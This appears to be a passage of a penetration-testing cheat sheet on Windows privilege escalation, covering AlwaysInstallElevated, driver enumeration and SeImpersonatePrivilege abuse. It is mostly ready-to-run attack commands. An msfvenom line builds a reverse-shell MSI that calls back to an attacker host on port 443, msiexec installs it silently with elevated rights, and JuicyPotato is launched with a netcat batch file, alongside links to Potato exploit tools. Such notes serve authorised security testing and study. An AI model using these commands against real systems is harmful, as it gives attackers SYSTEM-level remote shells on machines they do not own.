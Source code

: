 ##### Always Install Elevated

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$VPN LPORT=443 -f msi -o rev.msi
msiexec /quiet /qn /i C:\Windows\Tasks\rev.msi
```

#### Drivers

```
driverquery /v  # enumerate the drivers that are installed
searchsploit <driver name>
```

- the driver directory is often found under C:\Windows\System32\DRIVERS but sometimes in "C:\Program Files". Drivers are .inf filetype.

```
type USBPcap.inf # get driver version
```

Compile C/C++ code on Windows: https://www.mingw-w64.org/

```
mingw-w64.bat
gcc --help # sets up the PATH environment variable for the gcc executable
```

#### Impersonation Privileges

```
whoami /priv
```

##### Restore Privileges

- This tool should be executed as LOCAL SERVICE or NETWORK SERVICE only.
- https://github.com/itm4n/FullPowers

##### SeImpersonatePrivilege

- https://jlajara.gitlab.io/Potatoes_Windows_Privesc

- Sweet Potato to rule them all : https://github.com/CCob/SweetPotato

- If the machine is < Windows 10 1809 < Windows Server 2019 : https://github.com/ohpe/juicy-potato/
    - test for clsid : https://github.com/ohpe/juicy-potato/tree/master/CLSID

```
# Always use full path !!!
JuicyPotato.exe -t * -p C:\Windows\Tasks\nc.bat -l 1337 -c <clsid>
```

- If the machine is >= Windows 10 1809 & Windows Server 2019 :

- https://github.com/antonioCoco/RoguePotato 
